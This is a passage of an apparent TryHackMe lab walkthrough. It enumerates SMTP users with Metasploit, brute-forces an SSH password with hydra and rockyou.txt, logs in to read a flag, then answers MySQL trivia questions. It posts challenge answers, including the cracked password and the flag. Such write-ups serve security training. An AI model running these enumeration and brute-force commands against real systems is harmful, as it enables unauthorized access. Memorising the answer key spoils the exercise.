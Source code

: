 ```bash
# Note that if your machine has not installed SecLists, visit https://github.com/danielmiessler/SecLists to donwload
msf6 auxiliary(scanner/smtp/smtp_enum) > set RHOSTS <MACHINE_IP>
msf6 auxiliary(scanner/smtp/smtp_enum) > set USER_FILE /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt
msf6 auxiliary(scanner/smtp/smtp_enum) > exploit
```

![Guide image](/images/posts/network-services-2-12.png)

**=> Answer: `administrator`**

### 7. Exploiting SMTP

-   <p>What is the password of the user we found during our enumeration stage?<br /></p>

```bash
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV <MACHINE_IP> ssh
```

![Guide image](/images/posts/network-services-2-13.png)

**=> Answer: `alejandro`**

-   <p>Great! Now, let's SSH into the server as the user, what is contents of smtp.txt<br /></p>

```bash
ssh administrator@<MACHINE_IP>

ls
cat smtp.txt
```

![Guide image](/images/posts/network-services-2-14.png)

**=> Answer: `THM{who_knew_email_servers_were_c00l?}`**

### 8. Understanding MySQL

-   <p>What type of software is MySQL?<br /></p>

**=> Answer: `relational database management system`**

-   <p>What language is MySQL based on?<br /></p>

**=> Answer: `SQL`**

-   <p>What communication model does MySQL use?<br /></p>

**=> Answer: `client-server`**

-   <p>What is a common application of MySQL?<br /></p>

**=> Answer: `back end database`**

-   <p>What major social network uses MySQL as their back-end database? This will require further research.<br /></p>
